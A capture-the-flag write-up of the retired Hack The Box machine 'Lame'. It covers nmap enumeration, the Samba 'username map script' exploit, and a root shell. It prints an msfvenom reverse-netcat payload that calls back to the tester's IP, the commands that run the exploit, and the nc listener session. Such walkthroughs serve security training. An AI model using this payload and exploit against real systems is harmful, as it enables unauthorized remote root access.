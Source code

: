 ```yaml
---
layout: post
title: Hack the Box - Lame
date: 2020-03-16 22:11:22 +0100
description: Lame is a beginner level machine, requiring only one exploit to obtain root access. It was the first machine published on Hack The Box and was often the first machine for new users prior to its retirement.
img: lame.png
fig-caption: Lame
categories: HackTheBox
tags: [Easy, Linux, Retired, CVE]
---
```

## Overview
Lame is a beginner level machine, requiring only one exploit to obtain root access. It was the first machine published on Hack The Box and was often the first machine for new users prior to its retirement.
## Enumeration
```
┌──[10.10.14.27]-(calxus㉿calxus)-[~/hackthebox/legacy]
└─$ sudo nmap -p- -T4  10.129.113.79  
Starting Nmap 7.91 ( https://nmap.org ) at 2021-03-14 15:29 GMT
Nmap scan report for 10.129.113.79
Host is up (0.017s latency).
Not shown: 65530 filtered ports
PORT     STATE SERVICE
21/tcp   open  ftp
22/tcp   open  ssh
139/tcp  open  netbios-ssn
445/tcp  open  microsoft-ds
3632/tcp open  distccd
```
After running initial port enumeration the ports that seem most of interest are 139,445 and possibly 3632. However after service version enumeration and a google we find there is common samba vulnerability for this version called "username map script" exploit.
```
┌──[10.10.14.27]-(calxus㉿calxus)-[~/hackthebox/legacy]
└─$ sudo nmap -p139,445 -A  10.129.113.79
Starting Nmap 7.91 ( https://nmap.org ) at 2021-03-14 15:42 GMT
Nmap scan report for 10.129.113.79
Host is up (0.018s latency).

PORT    STATE SERVICE     VERSION
139/tcp open  netbios-ssn Samba smbd 3.X - 4.X (workgroup: WORKGROUP)
445/tcp open  netbios-ssn Samba smbd 3.0.20-Debian (workgroup: WORKGROUP)
```
## Foothold
As we used metaploit for the previous box I was keen to not use it for this box although there is module that can be utilised. While googling during enumeration I found the following exploit: https://gist.github.com/joenorton8014/19aaa00e0088738fc429cff2669b9851 First we need to create the payload to place in this script.
```
┌──[10.10.14.27]-(calxus㉿calxus)-[~/hackthebox/lame]
└─$ msfvenom -p cmd/unix/reverse_netcat LHOST=10.10.14.27 LPORT=9999 -f python
[-] No platform was selected, choosing Msf::Module::Platform::Unix from the payload
[-] No arch selected, selecting arch: cmd from the payload
No encoder specified, outputting raw payload
Payload size: 93 bytes
Final size of python file: 471 bytes
buf =  b""
buf += b"\x6d\x6b\x66\x69\x66\x6f\x20\x2f\x74\x6d\x70\x2f\x69"
buf += b"\x61\x7a\x75\x76\x3b\x20\x6e\x63\x20\x31\x30\x2e\x31"
buf += b"\x30\x2e\x31\x34\x2e\x32\x37\x20\x39\x39\x39\x39\x20"
buf += b"\x30\x3c\x2f\x74\x6d\x70\x2f\x69\x61\x7a\x75\x76\x20"
buf += b"\x7c\x20\x2f\x62\x69\x6e\x2f\x73\x68\x20\x3e\x2f\x74"
buf += b"\x6d\x70\x2f\x69\x61\x7a\x75\x76\x20\x32\x3e\x26\x31"
buf += b"\x3b\x20\x72\x6d\x20\x2f\x74\x6d\x70\x2f\x69\x61\x7a"
buf += b"\x75\x76"
```
In order to run it I used a docker container as we need to install dependencies for python 2.7
```
┌──[10.10.14.27]-(calxus㉿calxus)-[~/hackthebox/lame]
└─$ sudo docker run -v "$(pwd)":/lame -it --entrypoint /bin/bash python:2.7.18-stretch
root@2d402da68463:/# cd /lame
root@2d402da68463:/lame# pip install impacket
root@2d402da68463:/lame# pip install pysmb
root@2d402da68463:/lame# python samba-exploit.py 10.129.113.79
```
Then we can start a listener, and after executing the exploit we should receive a shell.
```
┌──[10.10.14.27]-(calxus㉿calxus)-[~/hackthebox/lame]
└─$ nc -nlvp 9999        
listening on [any] 9999 ...
connect to [10.10.14.27] from (UNKNOWN) [10.129.113.79] 39795
which python
/usr/bin/python
python -c "import pty; pty.spawn('/bin/bash')"
root@lame:/# whoami
whoami
root
```
## Privilege Escalation
As we attained root from this exploit and have access to the root flag, there is no need for privilege escalation.